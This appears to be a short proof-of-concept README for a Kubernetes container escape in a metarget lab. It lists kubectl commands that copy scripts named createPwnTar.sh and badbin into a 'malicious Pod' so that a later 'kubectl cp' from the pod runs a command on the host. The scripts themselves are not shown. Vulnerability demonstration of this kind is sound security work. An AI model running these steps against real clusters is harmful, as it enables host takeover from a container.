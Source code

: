 # Proof of Concept

Prepare the environemnt using the following command in metarget's folder : ./metarget cnv install cve-2016-5195

Prepare the malicious Pod using the following command : 
kubectl apply -f link

Copy the malicious scripts in the pod and exec into it
sudo kubectl cp createPwnTar.sh ubuntu:/createPwnTar.sh
sudo kubectl cp setupTar.sh ubuntu:/setupTar.sh
sudo kubectl cp badbin ubuntu:/badbin

kubectl exec -it ubuntu -- /bin/bash

Execute the script in the pod to prepare malicious files 
./setupTar.sh
./createPwnTar.sh

In the host, execute a copy command to copy a file from the pod to the host
sudo kubectl cp ubuntu:/tmp/twist twist

Open a new bash session and the command in line 17 of createPwnTar.sh will be executed successfully 
